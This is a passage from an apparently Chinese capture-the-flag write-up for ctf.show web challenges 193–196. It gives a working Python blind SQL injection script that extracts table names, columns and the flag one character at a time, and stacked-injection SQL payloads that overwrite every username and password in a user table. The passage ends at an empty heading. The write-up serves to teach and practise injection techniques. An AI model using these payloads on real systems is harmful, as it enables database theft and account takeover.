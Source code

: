 ```python
import requests
import string
url="http://70fd0050-11ec-4c26-8e1e-5c9ef88ab8b7.challenge.ctf.show/api/"
s=string.ascii_lowercase+string.digits+'{'+'}'+'-'
flag=''

for i in range(1,46):
    for j in s:
                #跑表名
        # data={
        #     'username':f"'||if((mid((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))='{j}',1,0)#",
        #     'password':'1'
        # }

        #跑列名
        # data={
        #     'username':f"'||if((mid((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{i},1))='{j}',1,0)#",
        #     'password':'1'
        # }
        #跑数据
        data={
            'username':f"'||if((mid((select f1ag from ctfshow_flxg),{i},1))='{j}',1,0)#",
            'password':'1'
        }
        r=requests.post(url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in r.text):
            flag+=j  
            print(flag)
            break
```

## web 194

禁用了left,right函数，那上一题应该是考察left,right函数了

left(str,length)

left函数从左截取字符串，right函数从右截取字符串

这题还是用上题脚本跑了

## web 195

堆叠注入，给sql添加上自己的sql语句。过滤了空格和空格的绕过方式，还可以使用圆括号反引号包裹字段名，分号结束语句。通过update语句把用户名密码都修改为1，登录

```sql
1;update(ctfshow_user)set`username`=1;
1;update(ctfshow_user)set`pass`=1;
```

## web 196
